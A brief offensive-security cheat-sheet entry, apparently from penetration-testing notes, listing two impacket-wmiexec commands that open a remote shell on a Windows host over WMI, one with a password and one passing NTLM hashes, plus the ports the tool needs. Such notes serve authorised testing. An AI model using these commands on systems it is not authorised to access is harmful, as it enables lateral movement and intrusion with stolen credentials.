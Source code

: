 ### WMI
The usage conditions for this tool require that ports 445, 135, and a high random port are allowed to communicate.
###### Get Shell
```
impacket-wmiexec domain/username:password@ip
impacket-wmiexec -hashes LMHASH:NTHASH domain/username@ip
```
